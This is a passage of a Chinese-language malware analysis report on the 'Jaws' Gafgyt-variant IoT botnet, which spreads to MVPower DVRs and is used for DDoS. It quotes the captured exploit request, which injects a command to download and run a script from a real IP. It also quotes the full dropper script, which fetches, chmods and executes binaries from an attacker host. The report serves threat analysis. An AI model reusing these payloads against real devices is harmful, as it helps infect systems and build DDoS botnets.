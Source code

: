 > 原文链接: https://www.anquanke.com//post/id/233534 


# Gafgyt变种——Jaws僵尸网络的分析报告


                                阅读量   
                                **111118**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p0.ssl.qhimg.com/t01619992a7456365ee.png)](https://p0.ssl.qhimg.com/t01619992a7456365ee.png)



## 背景

2021年2月19日，蜜罐系统捕捉到针对`MVPower model TV-7104HE(EDB_41471)`设备的远程投递样本，经跟踪发现脚本回连下载地址：http://45.145.185.83/jaws.sh，在2月19日、2月23日、2月24日分别更新了样本的版本。短时间内如此快速地更新版本，比较特殊，故对此进行研究。经过分析，我们确定这是一个借鉴了前代Gafgyt家族的部分代码，通过6001端口远程投递传播，针对MVPower设备，主要目的是为DDOS攻击的新型僵尸网络，附带了内存查杀特殊功能。它的字符串利用古典加密算法，加密字符串及命令信息，通过内置TOR 代理节点与`TOR C2`进行通信。

考虑到僵尸网络最开始远程下载是通过jaws.sh传播的，我们就将其命名为 `Jaws`。Jaws样本，内置了DDoS攻击、弱口令扫描、漏洞利用、内存查杀等功能模块。传播功能，主要是通过对80、8080端口的弱口令扫描和利用CVE-2019-19781漏洞来传播自己。最主要的DDoS功能模块，支持UDP_Flood、TCP_Flood、DNS等攻击指令，样本基本流程图如图1所示：

[![](https://p0.ssl.qhimg.com/t0194e9136c80f0d6a3.png)](https://p0.ssl.qhimg.com/t0194e9136c80f0d6a3.png)

图1：Jaws流程图



## 传播

目前Jaws通过6001端口传播，捕获到的payload如下所示，主要功能是从远程主机`45.245.36.128`下载并执行脚本。

```
GET /shell?cd%20%2Ftmp%3Bwget%20http%3A%2F%2F172.245.36.128%2Fjaws.sh%20-O%20jaws.sh%3Bsh%20.%2Fjaws.sh%3Brm%20-f%20jaws.sh HTTP/1.1\r\nHost: *.*.*.*:6001\r\nConnection: keep-alive\r\nAccept-Encoding: gzip, deflate\r\nAccept: */*\r\nUser-Agent: python-requests/2.25.0\r\n\r\n
```

脚本如下所示，主要功能是从远程主机下载执行相关CPU架构的Jaws样本。

```
#!/bin/sh
cd /tmp || cd /home/$USER || cd /var/run || cd /mnt || cd /root || cd / ;
#cd $(find / -writable -readable -executable | head -n 1)
curl http://45.145.185.83/bins/AJhkewbfwefWEFarm -O; busybox curl http://45.145.185.83/bins/AJhkewbfwefWEFarm -O; wget http://45.145.185.83/bins/AJhkewbfwefWEFarm -O AJhkewbfwefWEFarm; busybox wget http://45.145.185.83/bins/AJhkewbfwefWEFarm -O AJhkewbfwefWEFarm; chmod 777 AJhkewbfwefWEFarm; ./AJhkewbfwefWEFarm; rm -rf AJhkewbfwefWEFarm
curl http://45.145.185.83/bins/AJhkewbfwefWEFarm5 -O; busybox curl http://45.145.185.83/bins/AJhkewbfwefWEFarm5 -O; wget http://45.145.185.83/bins/AJhkewbfwefWEFarm5 -O AJhkewbfwefWEFarm5; busybox wget http://45.145.185.83/bins/AJhkewbfwefWEFarm5 -O AJhkewbfwefWEFarm5; chmod 777 AJhkewbfwefWEFarm5; ./AJhkewbfwefWEFarm5; rm -rf AJhkewbfwefWEFarm5
#curl http://45.145.185.83/bins/AJhkewbfwefWEFarm7 -O; busybox curl http://45.145.185.83/bins/AJhkewbfwefWEFarm7 -O; wget http://45.145.185.83/bins/AJhkewbfwefWEFarm7 -O AJhkewbfwefWEFarm7; busybox wget http://45.145.185.83/bins/AJhkewbfwefWEFarm7 -O AJhkewbfwefWEFarm7; chmod 777 AJhkewbfwefWEFarm7; ./AJhkewbfwefWEFarm7; rm -rf AJhkewbfwefWEFarm7
```

